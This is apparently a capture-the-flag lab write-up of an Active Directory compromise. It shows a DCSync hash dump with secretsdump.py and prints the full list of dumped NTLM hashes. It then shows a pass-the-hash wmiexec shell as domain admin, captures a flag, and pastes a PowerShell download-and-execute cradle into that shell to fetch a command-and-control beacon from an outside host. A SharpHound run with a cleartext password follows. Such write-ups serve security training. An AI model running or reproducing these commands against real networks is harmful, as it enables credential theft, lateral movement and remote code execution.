 

utilized [[All the way back around]] to dump hashes due to `cybr_adm` having rights to `DCSYNC`


`secretsdump.py` #dcsync
```bash
┌──(root💀gobots)-[02Jan2024 13:50:26]-[/usr/share/doc/python3-impacket/examples]                                                                                                                           
└─# proxychains python3 secretsdump.py -just-dc cyber_adm:bugs_b3_hacking_u@172.16.1.5                                                                                                                      
[proxychains] config file found: /etc/proxychains4.conf                                                                                                                                                     
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4                                                                                                                                      
Impacket v0.11.0 - Copyright 2023 Fortra                                                                                                                                                                    
                                                                                                                                                                                                            
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                               
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                                                                        
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0109d7e72fcfe404186c4079ba6cf79c:::                                                                                                                      
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cba2ed22077aa56ae957bcf43a8d82f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
bob:1110:aad3b435b51404eeaad3b435b51404ee:b38c126d0faabc61362ecc83ccb0cd08:::
joe:1111:aad3b435b51404eeaad3b435b51404ee:fde396caf28acc233207b2706483024f:::
bill:1113:aad3b435b51404eeaad3b435b51404ee:47b4d6012d7dcf231d8533758231c80d:::
salvador:1114:aad3b435b51404eeaad3b435b51404ee:bcee59fae528be44811e1b91ce3a8c35:::
lazy_admin:1119:aad3b435b51404eeaad3b435b51404ee:d168f91992f800743144f24518de5f2b:::
vincent.delpy:1120:aad3b435b51404eeaad3b435b51404ee:f5e7702e1032710f9f16ef8a691da861:::
iamtheadministrator:1122:aad3b435b51404eeaad3b435b51404ee:70016778cb0524c799ac25b439bd67e0:::
justalocaladmin:1603:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::
corp.local\GStephenson:1604:aad3b435b51404eeaad3b435b51404ee:a6c9bca7e1f4076c538ff6e7096d59be:::
corp.local\AMountgarrett:1605:aad3b435b51404eeaad3b435b51404ee:4b76b38df5e9adf9739c8f43869d91ce:::
corp.local\JHann:1606:aad3b435b51404eeaad3b435b51404ee:1d863479e1ab3bd62a2bfafa1abaa2dd:::
corp.local\LBellantoni:1607:aad3b435b51404eeaad3b435b51404ee:2c019748d27c982f3be03c378759a954:::
corp.local\LGresham:1608:aad3b435b51404eeaad3b435b51404ee:520d2dcba9759412cda4eeeb524e5407:::
corp.local\EReynolds:1609:aad3b435b51404eeaad3b435b51404ee:bb413fd4eab36d867ae30ca134911ef6:::
corp.local\MTorres:1610:aad3b435b51404eeaad3b435b51404ee:a1e69cd82485430ad9f732a7673b0732:::
corp.local\OCollier:1611:aad3b435b51404eeaad3b435b51404ee:9e5c6bcd86c00d97c22f8630be9e4f35:::
corp.local\KSteele:1612:aad3b435b51404eeaad3b435b51404ee:4192316432ae3c0b0e9c948d494e64fa:::
corp.local\LMacghey:1613:aad3b435b51404eeaad3b435b51404ee:35fb7b7d541ed4fee611fbefe89707c6:::
corp.local\FFigueroa:1614:aad3b435b51404eeaad3b435b51404ee:d365fa7447d7cf17e62ba4758b67632e:::
corp.local\RFord:1615:aad3b435b51404eeaad3b435b51404ee:ece851cce21d0092e2d1e61537dd351e:::
corp.local\LPotter:1616:aad3b435b51404eeaad3b435b51404ee:6ded62367988f54d2d562621d6532051:::
corp.local\SYoung:1617:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
corp.local\BMoore:1618:aad3b435b51404eeaad3b435b51404ee:65d8f7784ce4eed6b2c1a028c4e54866:::
corp.local\ZWootten:1619:aad3b435b51404eeaad3b435b51404ee:561d7ee942fadd19101ccdb0a5fde05a:::
corp.local\SBradshaw:1620:aad3b435b51404eeaad3b435b51404ee:c377ac42a9918b3ccda3f1585484665a:::
corp.local\DDavis:1621:aad3b435b51404eeaad3b435b51404ee:027dcae638b664716cdc075fa4cbc493:::
corp.local\EMoulds:1622:aad3b435b51404eeaad3b435b51404ee:916c1dbf6a2a698bfbb4104d3fe55974:::
```
once we were able to dump the `iamadministrator` hashes from `DC01` we essentially own the network, these domain administrator hashes are able to be utilized anywhere in the domain
```powershell
┌──(root💀gobots)-[03Jan2024 13:55:24]-[/usr/share/doc/python3-impacket/examples]
└─# proxychains python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:70016778cb0524c799ac25b439bd67e0 CORP.LOCAL/iamtheadministrator@172.16.1.5
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
corp\iamtheadministrator
```
![[Pasted image 20240103135838.png]]

# Flag:

```powershell
C:\USers\iamtheadministrator\Desktop>type flag.txt
OFFSHORE{r3pl1cation_@ll0w_l1st}
```
![[Pasted image 20240103135932.png]]

utilized `DA` hashes on [[My my, what do we have here]]


Once `CORP.LOCAL` domain is owned looking back at bloodhound.

`CORP.LOCAL` is trusted by `DEV.ADMIN.OFFSHORE.COM` this is the next step.
![[Pasted image 20240104103102.png]]

# Getting a DC01 Beacon

setup a `scripted web delivery` listener
![[Pasted image 20240104104614.png]]
copy the string `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.14.39:80/a'))"` and throw it in the `DC01` `wmiexec.py` shell

![[Pasted image 20240104104747.png]]
on as `DC01` beacon
![[Pasted image 20240104104855.png]]




# Pulling a new Bloodhound from DC01

--domain  <DEV.ADMIN.OFFSHORE.COM> 



```powershell
execute-assembly /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe -c all --ldapusername bill --ldappassword "I like to map Shares!" --domain DEV.ADMIN.OFFSHORE.COM
```